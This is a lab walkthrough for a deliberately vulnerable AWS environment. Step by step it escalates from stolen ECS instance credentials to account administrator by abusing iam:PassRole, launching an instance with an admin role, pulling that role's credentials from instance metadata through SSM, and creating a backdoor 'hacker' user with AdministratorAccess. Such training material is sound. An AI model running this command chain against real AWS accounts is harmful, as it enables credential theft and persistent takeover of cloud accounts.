# Objective

Escalate Privileges to become an administrator on the AWS Account.

# Solution

* We have already obtained the ECS host instance's IAM Credentials in the previous manual.

* Now let's try to create a user using those credentials.

## Creating a User

* Let's check the policies attached to our assumed **ecs-instance-role**

```console
aws iam list-attached-role-policies --role-name ecs-instance-role
```



* As we can see, this role has **IAMFullAccess**. So we should be able to create a user and grant him administrator access. Let's try to create a user named **hacker**.

```console
aws iam create-user --user-name hacker
```



* Error! we have been denied permission even though we have the **IAMFullAccess** policy. Let's get the role details

```console
aws iam get-role --role-name ecs-instance-role
```



* There is a permissions boundary associated with the role, we can try to view it.

```console
aws iam get-policy --policy-arn arn:aws:iam::676162304320:policy/aws-goat-instance-boundary-policy
```



```console
aws iam get-policy-version --policy-arn arn:aws:iam::676162304320:policy/aws-goat-instance-boundary-policy --version-id v1
```



* Here, we can observe that we have IAM List and Get access along with **iam:PassRole**, **ssm**, **ec2:RunInstance**.

* From all the information we have, we can try to run a new instance and pass a role that has our desired permissions and create a new user using the creds obtained from the new instance.

## Finding a role with desired permissions

* First, we need to list roles to check for our desired permissions.

```console
aws iam list-roles
```



* We can observe that there is an **ec2Deployer-role**. Let's get the policies attached to it.
    
```console
aws iam list-attached-role-policies --role-name ec2Deployer-role
```



* Now, let's get the policy's version.

```console
aws iam get-policy-version --policy-arn arn:aws:iam::676162304320:policy/ec2DeployerAdmin-policy --version-id v1
```



* Voila! we have a policy that allows us to perform all actions on all resources, now we need an instance profile with the **ec2Deployer-role** role attached to it!

* List the instance profiles

```console
aws iam list-instance-profiles
```



* Make note of the ```InstanceProfileName``` (ec2Deployer) associated with our desired ```RoleName``` (ec2Deployer-role)

* Now, let's try to pass this role to a new instance.

## Running new instance

* For running a new instance we need an **AMI, a security group, a subnet, and an instance profile**.

* First, let's find an Amazon Linux 2 AMI. The below command lists the latest AMI.

```console
aws ec2 describe-images --owners amazon --filters 'Name=name,Values=amzn-ami-hvm-*-x86_64-gp2' 'Name=state,Values=available'  --query 'reverse(sort_by(Images,&CreationDate))[:1].{id:ImageId,date:CreationDate}'
```



* Make note of the AMI ID, here we get ```ami-01a73f51321ab6899``` as our Amazon Linux 2 AMI.

* Now, let's check for the available subnets

```console
aws ec2 describe-subnets
```



* Let's take ```subnet-04b5603ee98706543``` as the subnet id

* Now, check for security groups

```console
$ aws ec2 describe-security-groups
```



* Let's take ```sg-001cef4a9d95ebde0``` as the sg id.

* You'll have to make sure both the security group and the subnet are a part of the same VPC, thus having the same ```VpcId``` in their listings.

* We have everything now to run a new instance. Let's run a new instance and pass the ```ec2Deployer-role``` to it.

```console
aws ec2 run-instances --subnet-id subnet-04b5603ee98706543 --image-id ami-01a73f51321ab6899 --iam-instance-profile Name=ec2Deployer --instance-type t2.micro --security-group-ids "sg-001cef4a9d95ebde0"
```



* Voila! we have created a new instance! make note of the ```InstanceID```. In our case, it is ```i-05815ea234a226115```

* Now, Let's create a user by obtaining credentials of the passed role with the help of ```ssm```

## Obtaining Credentials

* Run the below command to obtain temporary access credentials for ```ec2Deployer-role```

```console
aws ssm send-command --document-name "AWS-RunShellScript" --parameters 'commands=["curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2Deployer-role/"]' --targets "Key=instanceids,Values=i-05815ea234a226115" --comment "aws cli 1"
```



* Make note of the ```CommandId``` to check the commands execution result.

* Now let's get the creds from the result.
    
```console
aws ssm get-command-invocation --command-id "3c827d63-7a7a-4eeb-bf5f-337cc42b3479" --instance-id "i-05815ea234a226115"
```


* We now have the credentials of ```ec2Deployer-role```. Let's export them and create a user.

## Creating the user

* First, export the credentials and with these credentials, we can use the role passed to our newly launched instance.

```console
export AWS_ACCESS_KEY_ID=<value>
export AWS_SECRET_ACCESS_KEY=<value>
export AWS_SESSION_TOKEN=<value>
aws sts get-caller-identity
```



* Now, let's try to create a user.

```console
aws iam create-user --user-name hacker
```



* We'll now attach AdministratorAccess Policy, and create a login profile for our hacker user.

```console
aws iam attach-user-policy --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --user-name hacker
aws iam create-login-profile --user-name hacker --password hackerPassword@123
aws iam create-access-key --user-name hacker
```


* We have successfully created a user with **AdministratorAccess** on the **AWS Account!**

# What's Happening?

* After finding out the resources and actions we have access to, we were able to run an instance and utilize **ec2:passRole** to pass a role that has the desired permissions.

* With the help of **ssm**, we executed a command on the new instance to obtain the temporary access credentials of the role we passed it.

* Since that role has our desired permissions, we were able to use its credentials to create a new user on the **AWS Account** with Administrator Access and elevate our privileges.